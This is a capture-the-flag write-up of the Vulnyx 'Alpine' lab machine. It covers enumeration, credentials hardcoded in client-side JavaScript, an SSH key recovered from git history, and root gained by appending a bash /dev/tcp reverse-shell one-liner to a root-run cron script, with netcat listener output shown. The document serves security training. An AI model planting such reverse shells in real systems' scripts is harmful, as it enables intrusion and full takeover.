# Alpine - Penetration Testing Report

**Machine:** Alpine

**Platform:** Vulnyx

**Difficulty:** Easy

**IP Address:** 10.111.170.181

**Operating System:** Linux

**Notion** [link](https://www.notion.so/Alpine-30f74f42110180b58bbce624824b4a8e?source=copy_link)
---

## Executive Summary

This report documents the successful compromise of the Alpine machine through web-based credential discovery, SSH key recovery from Git repository, and privilege escalation via writable cron job exploitation. The attack chain demonstrates vulnerabilities in client-side credential storage, improper Git file deletion, and insecure file permissions on automated scripts.

**Objectives Achieved:**

- User flag obtained (developer)
- Root flag obtained via reverse shell
- Complete system compromise

---

## Initial Access & Reconnaissance

---

### Network Enumeration

### Port Scanning

Comprehensive service detection scan:

```bash
sudo nmap -T4 -sV -sS -O -sC --min-rate 5000 -p- 10.111.170.82
```



**Open Ports Discovered:**

| Port | State | Service | Version |
| --- | --- | --- | --- |
| 22/tcp | open | SSH | OpenSSH 10.2 (protocol 2.0) |
| 80/tcp | open | HTTP | Apache httpd 2.4.66 |

**What found:**

- SSH service available for remote access
- Web server running Apache
- Standard service configurations detected

### DNS Configuration

Initial browser access to the target IP resulted in a domain resolution error, indicating the need for local DNS configuration.

**DNS Resolution Configuration:**

```bash
echo "10.111.170.181 alpine.nyx" >> /etc/hosts
```

After configuration, the website became accessible at `http://alpine.nyx`



---

## Web Application Analysis

### Directory Enumeration

Using feroxbuster to discover hidden resources:

```bash
feroxbuster -u http://alpine.nyx/ -w /usr/share/wordlists/dirb/big.txt -t 50 -C 403,404 -x php,html,txt
```



**Discovered Resources:**

| Path | Status | Type | Notes |
| --- | --- | --- | --- |
| /login.html | 200 | HTML | Authentication page |
| /profile.html | 200 | HTML | There is no any authentication |
| index.html | 200 | HTML |  |
| booking,html | 200 | HTML | simple useless javascript logic |

**Critical Discovery:** `/login.html` identified as primary attack surface.


---

## Vulnerability Discovery & Exploitation

### Phase 1: Client-Side Credential Exposure

### Vulnerability Analysis

**Severity:** High

**CVSS v3.1:** 7.5

**CWE:** CWE-312 (Cleartext Storage of Sensitive Information)

Examination of the login page source code revealed hardcoded credentials stored in client-side JavaScript.

**Source Code Inspection:**



**Credentials Discovered:**

```jsx
// Found in source code
username: "testuser"
password: "WinterIsComing!"
```

### Authentication Bypass

we could easily access to  `/profile.html` without any authentication in this case



Using the discovered credentials to access the protected area (if it was 302):

**State:** Successful authentication to `/profile.html`

**P.S.** : Extra information about Cron Maintenance

---

### Phase 2: SSH Credential Recovery

### Protected Resource Access

After authentication, the profile page revealed additional functionality and information.

**Critical Finding:** Locked SSH credentials displayed on profile page.



**Extracted Credentials:**

```
Username: developer
Password: SummerVibes2024!
```

### Initial SSH Access

```bash
ssh developer@10.111.170.82
```

**Access Summary:**

- **User:** developer
- **Home Directory:** /home/developer
- **Shell:** /bin/bash

**State:** developer user

### User Flag Retrieval

```bash
cat user.txt
# 30a0cf321ff0c0997f45a7202490b260
```



---

### Phase 3: Internal Enumeration

### Documentation Discovery

A README file in developer’s home directory provided intelligence about system configuration:

```bash
cat README.txt
```

**Key Information:**

- Reference to another user: `sysadmin`
- Hints about system administration tasks
- Mention of automated processes (again)



### Git Repository Discovery

Exploring the filesystem revealed an unexpected finding:

```bash
ls -la /home/sysadmin/
```

**Discovery:** A `.git` directory present in sysadmin's home, suggesting version-controlled files.

---

### Phase 4: Git Repository Forensics

### Repository Enumeration

```bash
cd /home/sysadmin
git log --all --name-only --pretty="" | sort -u
```

**Observation:** Git history showed deleted files, potentially containing sensitive information.



### Deleted File Recovery

Examining Git objects for deleted SSH keys:

```bash
git log --all -- .ssh-backup/id_rsa
```

**Finding:** This will give you a "commit hash”



```bash
git show <COMMIT_HASH>:.ssh-backup/id_rsa
# to get OPENSSH PRIVATE KEY
# copy paste to sysadminsshkey
```



**SSH Key Extraction:**

```bash
chmod 600 sysadminsshkey
cat sysadminsshkey
```

The private key was successfully recovered from Git history.

---

### Phase 5: Lateral Movement to Sysadmin

### SSH Key Authentication

Attempting authentication with recovered private key:

```bash
ssh -i sysadminsshkey sysadmin@alpine.nyx
```

**State:** Successfully authenticated as `sysadmin` user.

### Post-Access Enumeration

Examining sysadmin's home directory:

```bash
cd ~
cat NOTES.txt
```

**NOTES.txt Contents:**


**Key Things:**

- Automated script execution every 2 minutes (likely cron job)
- Script location: `/opt/scripts/`
- Potential privilege escalation vector
- Reference to [cleanup.sh](http://cleanup.sh) info that we found from /profile.html

---

## Privilege Escalation

### Vulnerability: Writable Cron Script

### Discovery

Investigating the automated cleanup mechanism:

```bash
cd /opt/scripts/
ls -la
```

**Finding:** `cleanup.sh` script with writable permissions.



**Critical Vulnerability:**

- Script owned by root
- Writable by sysadmin group
- Executed automatically as root via cron

### Exploitation Strategy

This one was a bit tricky to escalate with SUID but i managed with reverse shell

**Reverse Shell Injection**

Setting up listener on attacking machine:

```bash
nc -lvnp 4444
```

**Payload Injection:**

```bash
echo 'bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1' >> cleanup.sh
```

**Script Contents After Modification:**

```bash
cat cleanup.sh
```



### Root Shell Acquisition

Waiting for cron execution (maximum 2 minutes):

**Connection Received:**

```bash
nc -lvnp 4444
Connection from alpine.nyx:xxxxx

id
# uid=0(root) gid=0(root) groups=0(root)

hostname
# alpine

whoami
# root
```



**Root Access Achieved:**

- **Previous User:** sysadmin (uid=1001)
- **Current User:** root (uid=0)
- **Method:** Cron job script injection
- **Shell Type:** Reverse bash shell

---

## Proof of Compromise

### Root Flag

```bash
cat /root/root.txt
# 6b75b087f12ed42f124d68493469a493
```

### System Information

```bash
uname -a
# Linux alpine 6.18.0-5-virt #6-Alpine SMP PREEMPT_DYNAMIC 2025-12-10 10:12:06 x86_64 Linux

cat /etc/os-release
# NAME="Alpine Linux"
# ID=alpine
# VERSION_ID=3.23.0
# PRETTY_NAME="Alpine Linux v3.23"
# HOME_URL="https://alpinelinux.org/"
# BUG_REPORT_URL="https://gitlab.alpinelinux.org/alpine/aports/-/issues"

```

---

## Vulnerability Summary

| # | Vulnerability | Severity | CVSS | Impact |
| --- | --- | --- | --- | --- |
| 1 | Client-Side Credential Storage | High | 7.5 | Unauthorized authentication |
| 2 | Sensitive Data in Git History | High | 7.8 | SSH private key exposure |
| 3 | Writable Root Cron Script | Critical | 8.8 | Privilege escalation to root |
| 4 | Improper File Permissions | High | 7.2 | System script modification |

---

## Attack Chain Visualization

```
┌──────────────────────────────────────────────────────────────┐
│                   ATTACK FLOW DIAGRAM                        │
└──────────────────────────────────────────────────────────────┘

    [1] Initial Reconnaissance
              │
              ├──> DNS Configuration Required
              │
              └──> Ports 22, 80 Open
                      │
                      ↓
    [2] Web Application Analysis
              │
              └──> /login.html discovered
                      │
                      ↓
    [3] Source Code Inspection
              │
              └──> Hardcoded credentials found
                   Username: testuser
                   Password: WinterIsComing!
                      │
                      ↓
    [4] Authentication Bypass
              │
              └──> Access to /profile.html
                      │
                      ↓
    [5] SSH Credentials Disclosed
              │
              └──> SSH access as developer
                      │
                      ↓
    [6] User Flag Obtained
              │
              └──> README hints at sysadmin user
                      │
                      ↓
    [7] Git Repository Discovery
              │
              ├──> .git directory in /home/sysadmin
              │
              └──> Deleted SSH key recovered
                      │
                      ↓
    [8] Lateral Movement: Sysadmin
              │
              └──> SSH authentication with recovered key
                      │
                      ↓
    [9] NOTES.txt Analysis
              │
              └──> Cron job running every 2 minutes
                   Location: /opt/scripts/cleanup.sh
                      │
                      ↓
    [10] Privilege Escalation
              │
              ├──> Writable script by sysadmin
              │
              └──> Reverse shell payload injected
                      │
                      ↓
    [11] Cron Execution
              │
              └──> Script runs as root
                      │
                      ↓
         [12] ROOT SHELL RECEIVED
              │
              └──> Root flag obtained
```

---

## Tools Used

| Tool | Purpose | Version |
| --- | --- | --- |
| Nmap | Network reconnaissance | 7.94 |
| feroxbuster | Directory enumeration | Latest |
| Git | Repository forensics | 2.x |
| Netcat | Reverse shell listener | Traditional |
| Bash | Shell scripting | 5.x |
| SSH | Remote access | OpenSSH |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID |
| --- | --- | --- |
| Reconnaissance | Active Scanning | T1595 |
| Initial Access | Valid Accounts | T1078 |
| Execution | Command and Scripting Interpreter | T1059 |
| Persistence | Scheduled Task/Job | T1053 |
| Privilege Escalation | Scheduled Task/Job | T1053 |
| Credential Access | Unsecured Credentials | T1552 |
| Discovery | File and Directory Discovery | T1083 |
| Lateral Movement | Remote Services (SSH) | T1021.004 |

---

## Lessons Learned

1. **Client-Side Security is Not Security**
    - Never store credentials in JavaScript
    - All authentication must be server-side
    - Assume all client-side code is visible to attackers
2. **Git History is Permanent**
    - Deleted files remain in Git history
    - Sensitive data requires complete removal
    - Regular repository security audits essential
3. **File Permissions Matter**
    - Scripts running as root must have strict permissions
    - Principle of least privilege prevents escalation
    - Regular permission audits catch misconfigurations
4. **Defense in Depth**
    - Multiple security layers prevent complete compromise
    - Single vulnerabilities should not lead to root access
    - Monitoring detects attacks in progress

---

## Conclusion

The Alpine machine was successfully compromised through a combination of poor coding practices (client-side credential storage), inadequate Git repository management, and misconfigured file permissions on automated scripts. The attack chain progressed from web-based credential discovery to lateral movement via SSH key recovery, culminating in privilege escalation through writable cron job exploitation.

**Difficulty Rating:** Easy (appropriate for beginners learning web exploitation and Linux privilege escalation)

**Primary Learning Outcomes:**

- Web application security fundamentals
- Git repository forensics
- Linux file permission exploitation
- Cron job abuse techniques

This engagement emphasizes the critical importance of secure coding practices, proper secrets management, and strict adherence to the principle of least privilege.

---

**Happy Hacking!**